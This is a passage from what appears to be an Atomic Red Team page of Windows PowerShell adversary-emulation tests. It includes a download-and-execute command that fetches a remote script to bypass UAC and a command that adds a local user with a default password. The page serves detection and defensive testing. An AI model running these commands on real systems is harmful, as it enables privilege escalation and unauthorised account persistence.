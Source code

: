 ## Atomic Test #5 - Invoke-AppPathBypass
Note: Windows 10 only
Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows



#### Run it with `command_prompt`! 
```
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```



<br/>
<br/>

## Atomic Test #6 - PowerShell Add User
Using PS 5.1, add a user via CLI

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username to add | string | atomic_user|
| full_name | Full name of user | string | Atomic Red Team|
| password | password to use | string | ATOM1CR3DT3@M|
| description | Brief description of account | string | Atomic Things|


#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
New-LocalUser -FullName '#{full_name}' -Name '#{user_name}' -Password #{password} -Description '#{description}'
```



<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - no prompt
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows
